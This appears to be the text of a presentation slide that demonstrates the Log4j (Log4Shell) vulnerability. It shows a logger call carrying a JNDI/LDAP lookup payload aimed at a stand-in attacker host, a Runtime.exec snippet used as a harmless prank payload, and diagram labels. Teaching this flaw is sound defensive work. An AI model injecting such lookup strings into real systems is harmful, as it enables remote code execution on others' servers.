

# Log 4 J
logger.error("${java-version}");
logger.error("${jndi:ldap://hackor.now:1389/123}");

Process p =
 Runtime.getRuntime().exec(
   new String[]{
     "open ",
     "https://youtu.be/dQw4w9WgXcQ"}
   );
your server
hackor.now
17